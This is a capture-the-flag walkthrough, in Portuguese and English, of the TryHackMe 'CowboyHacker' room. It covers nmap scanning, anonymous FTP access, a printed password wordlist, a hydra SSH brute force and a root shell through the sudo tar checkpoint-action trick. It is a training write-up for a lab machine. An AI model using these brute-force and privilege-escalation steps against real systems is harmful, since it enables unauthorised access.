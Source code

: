 # WRITE-UP COWBOYHACKER

![homepage](files/ctf-homepage.png)

[Clique aqui para acessar a sala](https://tryhackme.com/room/cowboyhacker#)
---

## QUESTÃO 01: Find open ports on the machine

**TRADUZINDO: Ache as portas abertas na máquina**

> Bom, basta fazer um simples escanemento. Você pode usar qualquer ferramenta de port-scan que preferir. Eu usarei o Nmap.

> Eu gosto de salvar o relatório do nmap em um arquivo próprio, mas se você não gostar rode apenas `nmap -A [target]`
`

**PASSO 01:** Execute no terminal `nmap -A [target] > file.txt`

No meu caso:
  `nmap -A 10.10.81.241 > scan.txt`

Resultado:

  ![scan](files/nmap-scan.png)

  * Ótimo, três portas estão abertas.
    * 21 `ftp`
    * 22 `ssh`
    * 80 `http`

  * O servidor FTP tem o _Anonymous login_ habilitado, interessante! Não precisamos quebrar ou descobrir nenhum usuário e senha oculta.

  * E temos um website rodando na porta 80 com Apache 2.4.18

  <br>

  ![website](files/website.png)
.
  Sempre verifique o código fonte do site, pode conter alguma informação sensível comentada.

  ![source](files/source-webpage.png)

  Mas nesse caso, não achei relevante. Apenas possíveis usuarios pra login no ssh.

----

  ## QUESTÃO 02: Who wrote the task list

  **TRADUZINDO: Quem escreveu a lista de tarefas**

  > Bom, lendo o pequeno trecho do website, eu notei que existe um personagem com nome de Ein. Mas não funcionou :(

  Mas lembre-se, o Nmap nos mostrou que o servidor FTP tem o login no modo anonymous habilitado. Então, vamos ver o que achamos lá.

  **PASSO 01:** Para logar como anonymous no servidor FTP use este comando: `ftp [alvo]` e digite `anonymous` como nome de usuário.

  No meu caso:

  ![fpt-login](files/ftp-login.png)

  **PASSO 02:** Nós achamos dois arquivos apenas rodando `ls`. Agora digite `get [arquivo]` para fazer o download para sua máquina local.

  Conteúdo de `task.txt`:

  ~~~
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ~~~

> Oh, talvez foi lin quem escreveu a lista de tarefas.

Conteúdo de `locks.txt`:

~~~
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

> Estranho. Parece um arquivo com possíveis senhas
-----

## QUESTÃO 03: What service can you bruteforce with the text file found?

**TRADUZINDO: Que serviço podemos fazer um bruteforce com o arquivo achado?**

## QUESTÃO 04: What is the users password?

**TRADUZINDO: Qual é a senha do usuário?**

Agora temos um usuário, uma lista de senhas e um serviço ssh que ainda não foi explorado. Sendo assim, a próxima etapa é tentar quebrar o ssh usando as credenciais encontradas. Para isso, irei utilizar o `hydra` mas você pode usar outra ferramenta que preferir

**PASSO 01:** Bruteforce ssh com hydra usando esse comando: `hydra -l lin -P locks.txt ssh://alvo`

 No meu caso:

 `hydra -l lin -P locks.txt ssh://10.10.81.241`

![hydraresult](files/ssh-bruteforce-hydra.png)

> We found!

**With the information obtained so far, you are already able to answer question 03 and question 04.**

-----

## QUESTION 05: user.txt

Let's login ssh with the credentials.
<br>
![loginssh](files/login-ssh.png)

> Boom! We are on the server

![user](files/usertxt.png)

Running `ls -la` we found the flag user.txt
> Pretty easy flag

**With the information obtained so far, you are already able to answer question 05.**

----

## QUESTION 06: root.txt

Now we have to escalate privilege and get the last flag root.txt.

After a long time looking through the files and searching for possible users, I thought I would use the linpeas script to automate my process (You can download it [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)), it is a very powerful script.

But I had forgotten to see what our current user can do. So i run `sudo -l`

![tar](files/allowed-tar.png)

We can use **tar**

A fast search on Google and i found on [GTFFobins site](https://gtfobins.github.io/gtfobins/tar/) this code:

![privilege-tar](files/tar-for-root.png)

~~~
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Now we are root. Just take the flag in `/root/root.txt`

![root](files/rootxt.png)
